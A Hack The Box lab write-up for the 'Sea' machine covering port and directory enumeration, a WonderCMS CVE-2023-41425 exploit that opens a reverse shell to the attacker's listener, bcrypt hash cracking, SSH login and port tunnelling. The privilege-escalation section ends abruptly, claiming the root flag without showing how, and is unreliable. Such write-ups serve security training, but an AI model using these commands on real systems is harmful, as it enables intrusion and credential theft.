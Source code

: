 
![Logo](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/Logo.png)


# Sea HTB

Alright, let’s break this down step by step. This is an Easy machine on Hack The Box. Whether you’re new or experienced, follow along and learn. Let’s dive in.


## Enumeration

#### nmap

First step in any pentest: Enumeration. We need to map the attack surface.

Port Scanning with nmap
Using `nmap`, we scan all ports for open services and gather as much information as possible. Here's the command:

```sh
  sudo nmap -sS -sVC -Pn -A --min-rate 5000 -n -p- 10.10.11.38 -oN nmap.txt
```

 * -sS: Stealth scan.
 * -sVC: Script scan with service and version detection.
 * -Pn: Skip ping checks. Assume the host is up.
 * -A: Aggressive mode for OS detection and more.
 * --min-rate 5000: Ensures fast scanning by sending at least 5000 packets/second.
 * -p-: Scan all ports.


![nmap](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/nmap.png)

| Puerto | Protocolo     | Description                |
| :-------- | :------- | :------------------------- |
| `22` | `SSH` | Secure protocol for remote access. |
| `80` | `http` | Unencrypted web service (default webpage). |

I opened the browser and navigated to `http://10.10.11.38`. It’s a basic webpage about bicycles. No immediate vulnerabilities were visible. Time to move deeper.

![PrincipalPage](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/PrincipalPage.png)

Using Gobuster, I performed a directory enumeration to find hidden resources:

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -u http://10.10.11.28
```

![Gobuster1](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/gobuster_FirstDir.png)

Directory by directory, deeper and deeper. Eventually, this:

```sh
gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt  -t 50 -u http://10.10.11.28/themes/bike/
```

<div style="display: flex; justify-content: space-around; align-items: center; gap: 10px;">
  <img src="https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/gobuster_SecondDir.png" alt="Gobuster2" width="45%">
  <img src="https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/gobuster_3Dir.png" alt="Gobuster3" width="45%">
</div>

Using quickhits.txt (a smaller, faster wordlist), I found the CMS in use: WonderCMS v3.2.0.

## Ataquing
Before moving forward, add the target’s IP and hostname to `/etc/hosts`.

![hosts](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/hosts.png)

Didn’t notice it earlier, but there’s a Contact link on the site.

![ContactLink](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/How%20to%20participate.png)

Perfect, a form. Let’s hunt for vulnerabilities. Actually, no need—I've already got the exploit [WonderCMS Authenticated RCE - CVE-2023-41425.](https://github.com/Diegomjx/CVE-2023-41425-WonderCMS-Authenticated-RCE)

![Contact](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/Contact.png)

Executing the Exploit

```sh
python3 exploit.py http://sea.htb/loginURL <YOUR_IP> 4444
```
Start your listener:
```sh
nc -lvnp 4444
```
![CVE](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/MyCVE.png)

Fill out the contact form with the exploit payload. 

![Attack](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/Attackingtheform.png)

After a few seconds (or minutes) the exploit will look like this.

![Exploit](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/Exploit2.png)

Visit this URL in your browser:

```sh
http://sea.htb/themes/revshell-main/rev.php?lhost=<YOUR_IP>&lport=4444
```

![www-data](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/www-data.png)

For a better shell, spawn a TTY:```python3 -c "import pty;pty.spawn('/bin/bash')"``` 

While poking around the web directory, I found `data.js`. 

![webfiles](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/webfiles.png)

Inside, there’s a bcrypt hash. Time to crack it.

![thehash](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/thehash.png)

Use hashcat with the `rockyou.txt` wordlist:

```sh
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

![hashcat](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/hashcat.png)

Once cracked, you’ll get the password.

Log in using the cracked credentials. Finding the username is simple: check `/home/`. Only two users exist—trial and error reveals the match.

```sh
ssh amay@10.10.11.28
```
You’re in. Time to escalate privileges.

## Privilege Scaletion

For privilege escalation, I started by checking active network connections and open ports on the system. If nothing useful came up, my fallback plan was to analyze running processes and, as a last resort, run LinPEAS for a full enumeration sweep.

```sh
netstat -tulpn
```
![netstat](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/netstat.png)

Port 8080 caught my attention—just like the last lab. To investigate further, I created an SSH tunnel to forward this port locally for easier analysis:

```sh
ssh -L 7000:127.0.0.1:8080 amay@10.10.11.28
```

Accessing http://127.0.0.1:7000 with the same credentials revealed this interface:

![page7000](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/page7000.png)

Upon logging in:

![page70002](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/Systemmonitoring.png)

The interface looked promising, but after exploring, I couldn’t find a spot for command injection. So, I switched to Burp Suite for deeper inspection.

![Burp1](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/analice1Burp.png)

Burp revealed something interesting. It appears the application compares files during requests. If the files differ, they’re flagged as suspicious.

No changes detected:
![Burp2](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/FirstTry.png)

Changes detected:
![Burp3](https://github.com/Diegomjx/Hack-the-box-Writeups/blob/master/easy/Sea/Image/SecondTry.png)

We already have the root flag, if you are wondering where the user flag is, it is located in amay's home page.







